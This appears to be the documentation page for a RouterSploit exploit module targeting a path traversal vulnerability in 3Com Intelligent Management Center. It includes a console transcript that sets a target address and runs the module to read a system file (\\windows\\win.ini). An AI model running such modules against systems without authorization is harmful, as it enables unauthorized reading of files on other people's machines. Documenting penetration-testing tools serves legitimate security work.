 # 3Com IMC Path Traversal

## Description
Exploits 3Com Intelligent Management Center path traversal vulnerability. If the target is vulnerable it is possible to read file from the filesystem.

## Authors
* Richard Brain # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [https://www.exploit-db.com/exploits/12679/](https://www.exploit-db.com/exploits/12679/)

## Vulnerable devices
* 3Com Intelligent Management Center

## Usage
```
rsf > use exploits/3com/imc_path_traversal
rsf (3Com IMC Path Traversal) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       8080                 Target port


Module options:

   Name         Current settings     Description
   ----         ----------------     -----------
   filename     \windows\win.ini     File to read from the filesystem


rsf (3Com IMC Path Traversal) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (3Com IMC Path Traversal) > run
[*] Running module...
```
